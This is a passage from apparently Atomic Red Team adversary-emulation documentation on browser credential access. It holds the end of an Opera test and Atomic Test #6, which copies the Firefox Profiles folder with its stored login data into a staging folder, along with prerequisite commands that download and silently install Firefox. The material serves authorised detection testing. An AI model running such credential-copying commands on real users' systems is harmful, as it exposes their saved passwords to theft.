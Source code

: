 ```powershell
Start-Sleep -s 180
Stop-Process -Name "opera"
```
##### Description: Opera login data file must exist
##### Check Prereq Commands:
```powershell
if (Test-Path "$env:APPDATA\Opera Software\Opera Stable\Login Data") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Path "$env:APPDATA\Opera Software\Opera Stable\Login Data" -ItemType File
```




<br/>
<br/>

## Atomic Test #6 - Simulating access to Windows Firefox Login Data
Simulates an adversary accessing encrypted credentials from firefox web browser's login database.
more info in https://support.mozilla.org/en-US/kb/profiles-where-firefox-stores-user-data

**Supported Platforms:** Windows


**auto_generated_guid:** eb8da98a-2e16-4551-b3dd-83de49baa14c






#### Attack Commands: Run with `powershell`! 


```powershell
Copy-Item "$env:APPDATA\Mozilla\Firefox\Profiles\" -Destination "PathToAtomicsFolder\..\ExternalPayloads" -Force -Recurse
```

#### Cleanup Commands:
```powershell
Remove-Item -Path "PathToAtomicsFolder\..\ExternalPayloads\Profiles" -Force -ErrorAction Ignore -Recurse
```



#### Dependencies:  Run with `powershell`!
##### Description: Firefox must be installed
##### Check Prereq Commands:
```powershell
if ((Test-Path "C:\Program Files\Mozilla Firefox\firefox.exe") -Or (Test-Path "C:\Program Files (x86)\Mozilla Firefox\firefox.exe")) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
if ($env:PROCESSOR_ARCHITECTURE -eq 'AMD64') {$url="https://download.mozilla.org/?product=firefox-latest-ssl&os=win64&lang=en-US"}else {$url="https://download.mozilla.org/?product=firefox-latest-ssl&os=win&lang=en-US"}
$installer = "PathToAtomicsFolder\..\ExternalPayloads\firefoxsetup.exe"
(New-Object Net.WebClient).DownloadFile($url,$installer)
Start-Process $installer -ArgumentList '/S' -Wait
```
##### Description: Firefox login data file must exist
##### Check Prereq Commands:
